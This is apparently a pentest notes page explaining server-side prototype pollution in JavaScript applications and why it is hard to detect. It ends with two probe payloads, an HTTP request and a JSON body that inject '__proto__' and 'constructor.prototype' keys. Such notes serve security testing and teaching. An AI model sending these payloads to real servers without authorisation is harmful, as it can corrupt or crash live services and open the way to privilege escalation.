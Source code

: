 # Server-Side prototype pollution

## Intro

Server-side prototype pollution (PP) occurs when an attacker can manipulate an application’s prototype chain on the server side, leading to serious vulnerabilities such as remote code execution (RCE) or privilege escalation. It takes advantage of the way JavaScript objects inherit properties and methods from their prototypes.

Unlike client-side PP, detecting and exploiting server-side PP is more challenging due to several factors:

* **No source code access**: In most cases, the vulnerable JavaScript code on the server is not directly visible, making it harder to analyze which parts of the code are vulnerable.
* **Lack of developer tools**: You can’t use browser DevTools to inspect objects or track behavior, as the JavaScript is running on a remote server.
* **DoS risk**: When you successfully pollute a server-side prototype, you risk breaking functionality or crashing the server, which is risky in production environments.
* **Pollution persistence**: Unlike client-side environments, where refreshing the page resets changes, server-side prototype pollution persists throughout the lifecycle of the server process.

These challenges make it essential to develop safe, non-destructive techniques for testing and detecting server-side prototype pollution vulnerabilities.

## Payloads

* Basic

```http
POST /user/update HTTP/1.1
Host: example.com
content-type: application/json

{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "foo": "bar"
    }
}

```

* Other option

```json
{
    "name": "john",
    "email": "john@example.com",
    "constructor": {
        "prototype": {
            "foo": "bar"
        }
    }
}
```
